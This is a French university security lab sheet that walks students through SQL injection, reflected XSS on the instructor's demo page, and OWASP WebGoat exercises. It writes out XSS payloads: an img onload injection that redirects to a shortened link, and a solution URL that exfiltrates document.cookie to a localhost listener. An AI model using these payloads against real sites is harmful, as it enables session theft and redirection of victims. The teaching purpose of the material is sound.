 ```yaml
---
description: Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de
---
```


# TP Sécurité

Le meilleur moyen de comprendre la sécurisation d’une application / site Internet, c’est de …

- Passer des heures sur de la théorie ?
- Passer des heures sur du code à vous ?
- Passer des heures à tenter des intrusions ?
- La réponse D ?

## Partie 1 : Les injections SQL

Avant d'utiliser WebGoat, nous allons nous focaliser sur la partie Injection SQL, pour ça nous allons utiliser le site [Hack Splaining](https://www.hacksplaining.com/exercises/sql-injection).

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe d’injections SQL.

## Partie 2 : Les XSS

Voilà un exemple simple de XSS via un input non filtré.

<Sample src="xss" />

::: danger Quoi faire ?

Ici, l'idée, est de trouver comment éxécuter du code via un simple chargement d'image ! Pour ça il faut connaître un peu le HTML et le fonctionnement des balises classique.

Une balise img, vous connaissez… Elle prend en paramètre un attribut `src`… ok ! Mais elle a également un autre attribut … nommé … `onload` cet attribut permet d'éxécuter du code quand la ressource (l'image) est chargé. Nous allons donc exploiter un code « mal écrit » pour charger du code JavaScript.

Pour ça, dans le champs de saisie, je vous propose de mettre:

```
https://fakeimg.pl/300/" onload="alert('Coucou'); window.location='https://bit.ly/3Bpiela'"
```

Que-se passe-t-il ? Pourquoi ? Regardons le code source ensemble !

:::

### 2.1 Exploiter la faille

En partant du code précédent, afficher dans la page un formulaire en exploitant la faille `onload` du code fourni.

### 2.1 La même chose mais par lien…

Vous l'avez peut-être remarqué, dans le code JavaScript il est également possible de spécifier une image. Par exemple il est possible d'écrire un lien :

- [https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/600/)

Ce lien est source **d'un très grand danger**, je vous propose de réfléchir à comment il serait possible d'exploiter « le paramètre uri » afin de lui donner de détourner le comportement du site.

- Trouver un moyer de réaliser la même attaque que le code précédent (point 2.0).
- Envoyer le lien à une autre personne.
- Lire des données sur son ordinateur (nous allons le faire ensemble).

C'est à vous (enfin à nous).

::: details Solution

- [Exemple de solution (injection via lien)](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22alert(%27Coucou%27);%20window.location=%27<https://bit.ly/3Bpiela%27%22>)

- [Exemple de vol de cookie](https://cours.brosseau.ovh/demo/xss/index.html?uri=https://fakeimg.pl/300/%22%20onload=%22document.body.insertAdjacentHTML(%27beforeend%27,%20`%3Clink%20rel=%27stylesheet%27%20href=%27<http://localhost:8888/?v=${document.cookie}%27%20/%3E>`)%22)

Étudier le code JavaScript et le code HTML généré, pourquoi ça ne fonctionne pas ?

:::

## Partie 2.1 : Les XSS

Pour mieux comprendre l'aspect dangereux d'une XSS nous allons utiliser Hack Splaining, pour ça rendez-vous sur [Hack Splaining](https://www.hacksplaining.com/exercises/xss-stored)

Celui-ci contient un bon « tutoriel » interactif permettant de tester et de se former au principe de XSS.

## Partie 3 : WebGoat

![Superbe Logo](./webgoat.png)

WebGoat est un outil didactique aux dimensions pédagogiques proposé par le groupe OWASP. Il s'agit d'une application WEB J2EE développée en Java et destinée à l'enseignement de manière interactive.

Elle vise à familiariser l'utilisateur aux technologies WEB (E.g: protocole HTTP, Encoding, AJAX), aux mécanismes du protocole HTTP et aux vulnérabilités qui peuvent en découler. Cet enseignement se fait au travers de différentes leçons, chacune abordant un concept particulier, détaillant un problème de sécurité donné avant de soumettre l'utilisateur à une mise en pratique immédiate. Chaque leçon (JSP) présente sur l'application comporte une vulnérabilité que l'utilisateur peut identifier et tenter d'exploiter (E.g: Injection SQL permettant de retrouver de fausses informations comme des numéros de cartes de crédit).

Voilà une liste des éléments que nous allons pouvoir « exploiter » dans WebGoat :

- Flux des contrôles d'accès et authentification
- Flux de gestion de session utilisateur
- Cross-Site Scripting (XSS)
- Injections
- Parameter and Data Tampering
- Buffer Overflows
- Configuration et stockage de données (non sécurisée)
- Sécurité AJAX

Nous n’allons bien évidemment pas tous les faire, l’idée est d’en faire quelques-uns et si vous le souhaitez vous pourrez approfondir le sujet.

![WebGoat](./webgoat-dom-injection-700x407.png)

## Téléchargement

Deux versions existent :

- Le jar
- Un containeur Docker

Nous allons choisir la version Docker :

## Lancement

```sh
docker run -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/webgoat
```

C’est parti, vous pouvez maintenant aller sur [http://127.0.0.1:8080/WebGoat](http://127.0.0.1:8080/WebGoat)

⚠️ Nous allons utiliser un outil intégrant des failles… Pour éviter tout risque pour votre machine, le mieux est de couper l’accès au réseau de votre ordinateur. ⚠️

## À faire

- AJAX Security
  - LAB: Client Side Filtering
  - LAB: DOM-Based cross-site scripting
  - Dangerous Use of Eval
- Concurrency
  - Thread Safety Problems
  - Shopping Cart Concurrency Flaw
- Injection Flaws
  - Command Injection (si vous souhaitez faire du MITM - Man In The Middle -)
  - Numeric SQL Injection
  - String SQL Injection
- Parameter Tampering
  - Exploit Hidden Fields
